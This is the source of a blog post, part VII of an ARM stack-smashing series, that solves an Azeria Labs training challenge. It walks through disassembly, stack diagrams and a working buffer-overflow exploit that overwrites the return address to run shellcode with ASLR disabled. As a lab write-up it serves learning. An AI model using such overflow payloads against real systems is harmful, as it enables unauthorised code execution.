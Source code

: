 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part VII"
---
```


It's time to solve the last challenge of this 7 part serie.<!--more-->


## The vuln

This time the overflow is not in `main` but in called function named
`getpath` but besides that, it is the classical unbounded `gets`
vulnerability.

```nasm
pwndbg> pdisass &main 10
 ► 0x10560 <main>                 push   {fp, lr}
   0x10564 <main+4>               add    fp, sp, #4
   0x10568 <main+8>               sub    sp, sp, #8
   0x1056c <main+12>              str    r0, [fp, #-8]
   0x10570 <main+16>              str    r1, [fp, #-0xc]
   0x10574 <main+20>              bl     #getpath <getpath>

   0x10578 <main+24>              mov    r0, r3
   0x1057c <main+28>              sub    sp, fp, #4
   0x10580 <main+32>              pop    {fp, pc}
```

{% marginmarkdowncode
'
```nasm
pwndbg> p (char*)(*(0x104e8 + 0x60 + 0x8))
$7 = 0x105f8 "input path please: "

pwndbg> p (char*)(*(0x10524 + 0x2c + 0x8))
$8 = 0x1060c "bzzzt (%p)\n"

pwndbg> p (char*)(*(0x1053c + 0x18 + 0x8))
$9 = 0x10618 "got path %s\n"
```
'
'' %}

Here is the `getpath` function. I added some notes in addition to the
disassembly:

```nasm
pwndbg> pdisass &getpath 15
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   0x104e0 <getpath+8>      sub    sp, sp, #0x4c
   0x104e4 <getpath+12>     mov    r4, lr
   0x104e8 <getpath+16>     ldr    r0, [pc, #0x60]
   0x104ec <getpath+20>     bl     #printf@plt <printf@plt> ; "input path please: "

   0x104f0 <getpath+24>     ldr    r3, [pc, #0x5c]
   0x104f4 <getpath+28>     ldr    r3, [r3]
   0x104f8 <getpath+32>     mov    r0, r3
   0x104fc <getpath+36>     bl     #fflush@plt <fflush@plt>

   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>

   0x1050c <getpath+52>     mov    r3, r4
   0x10510 <getpath+56>     str    r3, [fp, #-0x10]
   0x10514 <getpath+60>     ldr    r3, [fp, #-0x10]
   0x10518 <getpath+64>     and    r3, r3, #0xbf000000  ; bin 1011 1111 0...
   0x1051c <getpath+68>     cmp    r3, #0xbf000000
   0x10520 <getpath+72>     bne    #getpath+96 <getpath+96>

   0x10524 <getpath+76>     ldr    r0, [pc, #0x2c]
   0x10528 <getpath+80>     ldr    r1, [fp, #-0x10]
   0x1052c <getpath+84>     bl     #printf@plt <printf@plt> ; "bzzzt (%p)\n"

   0x10530 <getpath+88>     mov    r0, #1
   0x10534 <getpath+92>     bl     #_exit@plt <_exit@plt>

   0x10538 <getpath+96>     sub    r3, fp, #0x50
   0x1053c <getpath+100>    ldr    r0, [pc, #0x18]
   0x10540 <getpath+104>    mov    r1, r3
   0x10544 <getpath+108>    bl     #printf@plt <printf@plt> ; "got path %s\n"

   0x10548 <getpath+112>    sub    sp, fp, #8
   0x1054c <getpath+116>    pop    {r4, fp, pc}
```


Writing 0x50 bytes we overwrite the stack just before
writing the *ret* address: 0x4 more bytes and we are done.

```nasm
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   ...
   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>
```

{% maincolumnplantuml engine: 'ditaa' args: '--no-shadows --no-separation' %}
 fp + 0x50            fp points here
   |                   |
   v                   v                      ||
-------- main ---------+------+---- start --  || stack before
   xxxxxxxx   r4   fp  |  lr  |  xxxxxxx  ... || the overflow
----- ^ ----- ^ -- ^ --+-- ^ -+-------------  ||
      |       |    |       |                  ||
   buffer    saved registers
{% endmaincolumnplantuml %}


The stack pointer `sp` after `getpath`
returns will be at *4 bytes more*  than `fp` *before* the return:

```nasm
(gdb) x/1wx $fp   ; before getpath returns
0xbefffb84:     0x00010578 ; <-- ret address (to main)

(gdb) bt
#0  0x000104e8 in getpath ()
#1  0x00010578 in main ()
```

{% maincolumnplantuml engine: 'ditaa' args: '--no-shadows --no-separation' %}
                             sp points here
                              |
                              v               ||
-------- main ----------------+---- start --  || stack after
   AAAAAAAA   AA   AA      sp |  eeeeeee  ... || the overflow
----- ^ ----- ^ -- ^ ----- ^ -+- ^ ---------  ||
      |       |    |       |     |            ||
      \-- padding -/   befffb88  egg
{% endmaincolumnplantuml %}

## The attack (without DEP and ASLR)

The `egg.text` is the same one used in the
[part 6](/book-of-gehn/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html).

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x88\xfb\xff\xbe' > exploit
pi@raspberrypi:~$ cat egg.text >> exploit

pi@raspberrypi:~$ rm -f pwned_proof

pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash

(aslr disabled) pi@raspberrypi:~$ cat exploit | ./stack6
(aslr disabled) pi@raspberrypi:~$ echo $?
0

(aslr disabled) pi@raspberrypi:~$ cat pwned_proof
pwn!
```

## Future work

This is the last part of the
[ARM challenges](https://github.com/azeria-labs/ARM-challenges) from
[Azeria Labs](https://azeria-labs.com).

However there are a lot of things to explore, tweak and stretch.

In the
[part 6](/book-of-gehn/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html)
I coded a ARM egg, the next obvious step would be write the same egg in
Thumb mode.

So far, the egg was always loaded in the stack and executed there. In
these modern days, the stack is **not** executable so it would be cool
to learn how to bypass this restriction (known as Data Execution
Prevention *DEP* or Write-xor-Execute *W+E*).


Since [part 5](/book-of-gehn/articles/2021/01/20/Smashing-ARM-Stack-for-Fun-Part-V.html)
we were *hardcoding* addresses. *Shame on me*.

Address Space Layout Randomization *(ASLR)* is a well established feature
of modern OS to randomize the *base address* of the loaded libraries.
Bypassing techniques exist since at least 2007 so it is a definitely
topic to learn.


<!-- stuff -->

<script>
function fix_asm_syntax(ev) {
    // pip install selectq
    //   cond = (val('text()') == 'blt') | (val('text()') == 'b') | (val('text()').startswith('mov')) | ...
    //   div = sQ.select('div', attr('class').contains('language-nasm'))
    //   xpath = div.select('span', cond)

    // Make some instructions "keywords"
    var xpath = ".//div[contains(@class,'language-nasm')]//span[(((text() = 'blt') or (text() = 'b')) or starts-with(text(), 'mov')) or starts-with(text(), 'ldm') or starts-with(text(), 'stm') or starts-with(text(), 'ldr') or starts-with(text(), 'bx') or starts-with(text(), 'bl') or starts-with(text(), 'bne') or starts-with(text(), 'mvn') or starts-with(text(), 'beq') or starts-with(text(), 'svc') or starts-with(text(), 'cmn') or starts-with(text(), 'bhi')]";
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.add('k'); // keyword
        el.classList.remove('n'); // noun
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-nasm')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-python')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }
}

document.addEventListener('DOMContentLoaded', fix_asm_syntax);
</script>
